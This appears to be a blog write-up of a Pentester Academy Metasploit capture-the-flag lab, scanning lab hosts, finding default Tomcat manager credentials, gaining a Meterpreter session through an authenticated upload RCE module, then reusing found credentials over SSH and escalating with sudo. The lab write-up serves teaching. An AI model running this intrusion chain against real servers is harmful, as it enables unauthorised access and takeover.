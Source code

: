 +++
author = "Nick"
categories = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
date = 2020-01-05T18:56:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/attackdefend-2.png"
slug = "attack-defense-metasploit-ctf-3"
summary = "In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two Metasploit modules. A module to test for valid user credentials and an authenticated RCE."
tags = ["attack defend", "CTF", "basic", "metasploit", "meterpreter", "ssh", "sudo", "tomcat", "authenticated rce"]
title = "Attack | Defense - Metasploit CTF 3"

+++


Welcome back to the third entry in this series. In the last entry we used three `Metasploit` modules to obtain `mysql` credentials and leverage them on the target machine.

## Overview
In this entry we will tackle the third Metasploit CTF on Pentester Academy. In this entry we will use two `Metasploit` modules. A module to test for valid user credentials and an authenticated RCE.

## Network Topology

![](/images/2019/12/image-77.png)

## Enumeration
If you've been following along, you know that we being our enumeration process with `nmap`. We'll now start to combine the set of command options we've learned. Let's obtain our IP and scan our subnet:

Command:
`nmap -sV -T5 192.192.223.1/24`

Here are our results:
```
Nmap scan report for target-1 (192.192.223.3)
Host is up (0.000036s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.37
MAC Address: 02:42:C0:C0:DF:03 (Unknown)

Nmap scan report for target-2 (192.192.223.4)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:C0:DF:04 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`Target-1` has two services running. `Jserv` and `Tomcat` both known to have some flaws in them. Let's use `searchsploit` to see if there are any `Metasploit` modules we can leverage.

Command:
`searchsploit jserv`
`searchsploit 'tomcat metasploit'`

![](/images/2019/12/image-78.png)

We see that we have a few `Tomcat` modules but no `Metasploit` modules returned for `Jserv`. Let's load `Metasploit`.

Command:
`msfdb run` or `msfconsole`

Once loaded, lets find the module we want to use.

Command:
`msf5> search tomcat`

![](/images/2019/12/image-80.png)

Quite a few modules come back. We see there are some authenticated modules and some RCE's. However, the first thing we want to try is to enumerate our possible login options. So for that we will use the `tomcat_mgr_login` module.

Command:
`msf5> use auxiliary/scanner/http/tomcat_mgr_login` or `msf5> use 8`

Once our module is loaded, we check our `options`.

Command:
`show options`

In this module, we will want to `set` our `rhosts` and that's it. Now in a larger CTF setting you would probably want to change the `pass_file`. This is the parameter that sets the password list. You could set it to something much larger, like `rockyou.txt` or something you've currated yourself and is more specific.

Command:
`msf5> set rhost target-1`

Then `run` our payload.
`msf5> run`

![](/images/2019/12/CTF_3_tomcat_mod.gif)

We see a successful credential pair: `tomcat`:`tomcat`. The default credentials. Well now that we know we have a valid set of credentials, we can seek to leverage them for an `Authenticated RCE`. 

When we look back on our listing of modules, we see there is an `Authenticated RCE` listed as `tomcat_mgr_upload`. We'll use that.

Command:
`msf5> use exploit/multi/http/tomcat_mgr_upload` or `msf5> use 15`

We check out `options` inside the module.

Command:
`msf5> show options`

![](/images/2019/12/image-81.png)

We have quite a few options to set here: `HttpPassword`, `HttpUsername`, `rhosts` and `rport`.

Commands:
`msf5> set HttpPassword tomcat`
`msf5> set HttpUsername tomcat`
`msf5> set rhosts target-1`
`msf5> set rport 8080`

In this scenario, we are setting our `HttpPassword` and `HttpUsername` to the credentials we verified earlier. Something we haven't done yet is set our `rport`. The default port here is 80, however, we determined that `Tomcat` is running on 8080.

We then `run` our exploit.

Command:
`msf5> run` or `msf5> exploit`

![](/images/2019/12/CTF_3_tomcat_aRCE.gif)

It worked! We not have a valied `Meterpreter` session! This is different than a normal shell. You can read all about what `Meterpreter` is [here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/). For the purpose of this post, you just need to know it's a more advanced shell. 

We can use standard Linux commands inside this shell to navigate around and do some enumeration. We head to `/home` to see what users are listed.

![](/images/2019/12/image-82.png)

We have one user `devadmin`. Inside his home directory is a file called `note`.

![](/images/2019/12/image-83.png)

We look at it's contents and see some credentials.

![](/images/2019/12/image-84.png)

Great! We can safely assume that we are going to use these credentials to log into `target-2`. We will `background` our current shell just in case we need it later.

Command:
`meterpreter > background`

Then we'll exit the module we were in:

Command:
`msf5> back`

Now we are back to a standard `Metasploit` prompt. We can `SSH` from here! That's right, `Metasploit` will let us use many of our native Linux commands from within it's commandline.

Command:
`msf5> ssh admin@target-2`

We enter the password and accept our fingerprinting.

![](/images/2019/12/CTF_3_tomcat_target-2_ssh.gif)

We have admin credentials on the system but now what? We aren't root but we can try to switch the root user.

Command:
`sudo su`

Once we do that we are given an elevated prompt!

![](/images/2019/12/image-85.png)

We then head to `/root/` to find the `flag` file.

![](/images/2019/12/image-86.png)

Another CTF down! Hopefully this has been a learning experience for anyone that has read it through. Next up Metasploit CTF 4!



